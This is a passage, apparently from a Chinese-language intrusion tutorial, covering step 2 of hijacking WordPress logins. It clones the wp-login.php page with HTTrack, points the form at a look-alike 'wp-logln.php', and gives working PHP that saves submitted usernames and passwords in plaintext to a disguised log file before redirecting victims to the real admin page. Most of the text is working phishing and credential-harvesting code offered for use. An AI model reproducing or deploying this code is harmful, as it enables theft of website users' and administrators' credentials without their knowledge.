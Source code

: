 2.使用httrack工具克隆wp\_login.php前端页面  
[GitHub - xroche/httrack: HTTrack Website Copier, copy websites to your computer (Official repository)](https://github.com/xroche/httrack)  
对表单部分进行修改 在表单后插入代码进行明文密码劫持

```plain
<form name="loginform" id="loginform" action="wp-logln.php" method="post">
  <p>
    <label for="user_login">用户名或电子邮件地址

      <input type="text" name="log" id="user_login" class="input" value="" size="20" /></label>
  </p>
  <p>
    <label for="user_pass">密码

      <input type="password" name="pwd" id="user_pass" class="input" value="" size="20" /></label>
  </p>
  <p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"  /> 记住我</label></p>
  <p class="submit">
    <input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="登录" />
    <input type="hidden" name="redirect_to" value="http://localhost/wp-admin/" />
    <input type="hidden" name="testcookie" value="1" />
  </p>
</form>
```

```plain
<?php
setcookie('redirected','1');
$u=$_POST['log'];
$p=$_POST['pwd'];
if(isset($_POST['log']) && isset($_POST['pwd'])){
    file_put_contents('/var/log/accesss.log',$u.$p);
    session_start();
    $_SESSION['redirected'] = false;
    header('Location: /admin');
}
?>
```

当正常访问登录页面时 就会被重定向到钓鱼页面  
输入账号密码后将重定向到真实登录页面 此时账号密码已被记录  